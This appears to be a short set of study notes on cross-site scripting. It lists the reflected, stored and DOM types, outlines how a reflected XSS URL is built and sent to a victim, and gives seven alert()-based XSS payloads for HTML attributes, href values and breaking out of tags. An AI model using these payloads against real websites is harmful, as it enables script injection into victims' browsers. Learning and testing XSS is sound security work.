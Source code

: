 # Type
1. Relfected XSS
2. Store XSS
3. DOM XSS

- Reflected XSS:
    - Tatics: make attacker's JS code run on victims browser
    - Technique: Create payload and combine it to url of vuln website, send that URL to victim
    - Procedures: use burpsuite, inspect tool, ... to test payload, add payload to URL

# Payload

1. `<img src=1 onerror=alert()>`
2. `" onfocus="alert()`
3. `onload="this.src+=<img src=1 onerror=alert()>`
4. Anything put inside href use this payload `javascript:alert()`
5. `'-alert(1)-'`
6. or `'; alert();'`
7. break out an select tag: `</select><img src=1 onerror=alert()>`
